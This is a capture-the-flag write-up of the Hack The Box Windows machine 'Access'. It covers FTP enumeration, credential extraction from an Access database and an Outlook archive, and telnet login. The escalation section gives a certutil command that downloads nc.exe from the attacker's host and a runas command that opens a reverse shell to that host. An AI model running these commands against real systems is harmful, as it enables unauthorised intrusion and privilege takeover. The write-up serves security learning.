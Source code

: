 ```yaml
---
layout: post
title: Hack The Box - Access
categories: hack-the-box
tags: [Windows, ftp]
image: /hackthebox/access/0.png
---
```


<hr>
### Quick Summary 
#### Hey guys today Access retired and this is my write-up. I don't have too much to say about this box , It was a nice easy windows box and a good example of using `runas` in windows , Which is like `sudo` in linux and `doas` in openbsd (we used `doas` in [Ypuffy](/hack-the-box/ypuffy)). It's a windows box and its ip is 10.10.10.98 , I added it to `/etc/hosts` as `access.htb`
![](/images/hackthebox/access/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services :
`nmap -sV -sT -sC access.htb`
![](/images/hackthebox/access/1.png)
#### Nmap tells us that there's ftp running on port 21 , telnet on port 23 and http on port 80. It also tells us that we can login anonymously to ftp. Let's look at http first.
<br>
<hr>
### HTTP Enumeration 
#### We get this page titled as "MegaCorp" and it only has this image :
![](/images/hackthebox/access/2.png)
#### Sub directories enumeration with `gobuster` and `common.txt` (`/usr/share/wordlists/dirb/common.txt` in kali) only gave us 2 pages , `/aspnet_client` and `/index.html` 
![](/images/hackthebox/access/3.png)
#### `/aspnet_client` gave us `403` Forbidden :
![](/images/hackthebox/access/4.png)
#### And `/index.html` is of course the main page we saw earlier :
![](/images/hackthebox/access/5.png)
#### So now we know that http has nothing , Next thing to check is ftp
<br>
<hr>
### FTP Enumeration
#### Nmap told us earlier that anonymous login on ftp was allowed , After we login we find 2 directories `Backups` and `Engineer`
![](/images/hackthebox/access/6.png)
#### In `Backups` there is only one file called `backup.mdb` , we will type `binary` to set the transfer mode to binary , so we won't get a corrupted file. Then `get backup.mdb` to download it :
![](/images/hackthebox/access/7.png)
#### And in `Engineer` there's a file called `Access Control.zip` :
![](/images/hackthebox/access/8.png)
<hr>
### Extracting credentials from backup.mdb and getting User
#### `backup.mdb` is a Microsoft Access Database , we can check using `file` :
![](/images/hackthebox/access/9.png)
#### We need mdbtools to deal with this database , it can be installed with `apt`
`apt-get install mdbtools`
#### We will use `mdb-tables` to get the table names : 
![](/images/hackthebox/access/10.png)
#### There's an interesting table named `auth_user` , We will use `mdb-export` to get the contents of that table :
`mdb-export backup.mdb auth_user`
![](/images/hackthebox/access/11.png)
#### And it gave us some credentials : 
`admin : admin`
<br>
<br>
`engineer : access4u@security`
<br>
<br>
`backup_admin : admin`
#### By looking at the other `zip` file we will find a file called `Access Control.pst` and it's a password protected file.
![](/images/hackthebox/access/12.png)
#### We already have 2 passwords : `admin` and `access4u@security`. `access4u@security` is the right password.
![](/images/hackthebox/access/13.png)
#### `Access Control.pst` is a Microsoft Outlook email folder : 
![](/images/hackthebox/access/14.png)
#### We can use a tool called `readpst` to be able to read the file :
`readpst Access\ Control.pst`
![](/images/hackthebox/access/15.png)
#### It will create another file called `Access Control.mbox` , Let's `cat` that file :
![](/images/hackthebox/access/16.png)
#### The very first thing we see is this email which has credentials for an account called `security` , password : `4CcessC0ntr0ller`
#### Let's `telnet` into the box with those credentials : 
`telnet access.htb`
![](/images/hackthebox/access/17.png)
#### And we owned user !
<br>
<hr>
### runas and Privilege Escalation
#### As always we will start enumerating the filesystem , There are only 3 users on the box `Administrator` , `Public` and `security`.
![](/images/hackthebox/access/18.png)
#### We are in as `security` and we can't go into Administrator's directory so let's check Public.
#### In the Desktop of `Public` there's a `lnk` called `ZKAccess3.5 Security System`.
![](/images/hackthebox/access/19.png)
#### Let's `type` it and see what's inside it :
![](/images/hackthebox/access/20.png)
#### Of course not the best output , because it's a `lnk` file not a `txt` file , but we can read some stuff , and we notice that there's a `runas` command being excuted as administrator. `runas` allows us to run commands as another user and the option `/savecred` allows us to use the command without asking for password. Looking into Public's desktop is not necessary to know that, we can check by executing `net user administrator`
![](/images/hackthebox/access/21.png)
#### `Password required` is set to `No` , If this was set to `Yes` we wouldn't be able to use `runas` as administrator without knowing the password , However that `lnk` file on Public's desktop was a nice hint.
#### Now we can run a simple HTTP server on our box with python and host `nc.exe` : `python -m SimpleHTTPServer 80` `80` is the port number and it can be anything 
#### You can get `nc.exe` from github [here](https://github.com/diegocr/netcat/blob/master/nc.exe) , I also remember that I included another link in [SecNotes write-up](/hack-the-box/secnotes)
#### Then we will download it on the box :
`certutil -urlcache -split -f http://10.10.xx.xx/nc.exe nc.exe`
![](/images/hackthebox/access/22.png)
#### After that we will set up our nc listener `nc -lvnp 1337` `1337` is the port number and it can be anything.
#### Finally we will use `runas` to get a reverse shell :
`runas /user:Administrator /savecred "nc.exe -c cmd.exe 10.10.xx.xx 1337"`
![](/images/hackthebox/access/23.png)
#### Let's check our listener :
![](/images/hackthebox/access/24.png)
#### We have a shell.
![](/images/hackthebox/access/25.png)
#### And we owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Zipper](/hack-the-box/zipper/)
#### Next Hack The Box write-up : [Hack The Box - Ethereal](/hack-the-box/ethereal/)
<hr>
